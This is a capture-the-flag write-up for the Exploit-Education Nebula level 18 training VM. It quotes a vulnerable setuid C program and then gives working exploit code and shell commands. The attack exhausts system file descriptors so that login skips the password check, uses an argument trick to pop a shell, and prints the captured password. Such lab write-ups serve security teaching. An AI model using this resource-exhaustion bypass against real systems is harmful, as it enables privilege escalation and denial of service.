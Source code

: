 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 18"
date:   2019-08-25 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 18](https://exploit.education/nebula/level-18/)

## Challenge
Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.

To do this level, log in as the `level18` account with the password `level18`. Files for this level can be found in `/home/flag18`.
## Vulnerability
The program looks for a certain string and then calls certain functions.
```cpp
if(strncmp(line, "login", 5) == 0) {
          dvprintf(3, "attempting to login\n");
          login(line + 6);
      } else if(strncmp(line, "logout", 6) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "shell", 5) == 0) {
          dvprintf(3, "attempting to start shell\n");
          if(globals.loggedin) {
              execve("/bin/sh", argv, envp);
              err(1, "unable to execve");
          }
          dprintf("Permission denied\n");
      } else if(strncmp(line, "logout", 4) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "closelog", 8) == 0) {
          if(globals.debugfile) fclose(globals.debugfile);
          globals.debugfile = NULL;
      } else if(strncmp(line, "site exec", 9) == 0) {
          notsupported(line + 10);
      } else if(strncmp(line, "setuser", 7) == 0) {
          setuser(line + 8);
      }
```
In this functions our goal is to execute `shell`. But the program checks the value of the variable `globals.loggedin`.
If we can set the value of this variable to `1`, we can execute a shell. Lets take a look at the `login` function.
```cpp
void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}
```
We can see that we can login with or without the password file. If we can prevent the program from opening the `password` file we will be able to set the value of `globals.loggedin` to 1 and then we can execute the `shell`.
This can be done using up all file descriptors available in the system . If no file descriptors and available then the program won't be able to open the password file and it will fail the `if(fp)` check and we can login without the password file.   
There is a command to check the file descriptor status in linux.
```bash
level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 5376       0       204482
```
It shows that `5376` file descriptors are open and a total of `204482` are available. (I have been playing around with file descriptors thats why there are more than 5000 open. Usually the numbers are way lower.)  
## Solution
Lets write a program that will open files descriptors but won't close them.
```cpp
#include <sys/stat.h>
#include <fcntl.h>
int main(int argc, char **argv, char **envp)
{
        int i=0;
        for (i=0;i<4096;i++)
        {
                printf ("%d\n",i);
                open("/tmp/open","r");
        }
getchar();
return 0;
}
```
This program will open a file and then wait for input. We can run the same program simultaneously and use up all the file descriptors. But before that we have to `ssh` into the box using another window and start our `flag18` program. Once we use up all file descriptors we can `login`. Also we can set the debug file to the terminal so that we can see the output.
#### Window1
```bash
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
```
Now we can run our program to use up all the file descriptors
#### Window2
```bash
level18@nebula:~$ gcc filed.c
level18@nebula:~$for i in {1..1000};do ./a.out & done #maybe 1000 is overkill. You can try a lower number too

level18@nebula:~$sysctl fs.file-nr
-sh: start_pipeline: pgrp pipe: Too many open files in system
-sh: /sbin/sysctl: Too many open files in system
[1232]   Done(126)               ./a.out
[1233]   Done(126)               ./a.out
[1234]   Done(126)               ./a.out
[1235]   Done(126)               ./a.out
[1236]   Done(126)               ./a.out
```
Now we have used up all the file descriptors. Lets `login`
#### Window 1
```bash
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
```
Now we have to terminate the programs we ran to `pop` a shell.
#### Window 2
```bash
level18@nebula:~$for i in {1..100};do kill "%$i";done  
level18@nebula:~$sysctl fs.file-nr
fs.file-nr = 153312     0       204482
```
Now we lets run the `shell`
#### Window 1
```bash
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
        ./flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```
But its giving us some errors. This is because of the arguments we are passing.
```cpp
if(globals.loggedin) {
              execve("/bin/sh", argv, envp);
              err(1, "unable to execve");
          }
```
The program is passing the `-d` argument to the shell. Which is an invalid argument. So we have to use some other argument before `-d` which will be ignored by program but it will prevent the `shell` form causing error. Let use 
`--init-file` argument.
(You have to run the c program again to use up the file descriptors and then kill it after login)
#### Window 2
```bash
level18@nebula:/home/flag18$ ./flag18 --init-file -d /dev/tty -v
./flag18: invalid option -- '-'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'n'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 't'
./flag18: invalid option -- '-'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
ls
--d  flag18  password  -v
getflag
You have successfully executed getflag on a target account
cat password
44226113-d394-4f46-9406-91888128e27a
```
### Solved!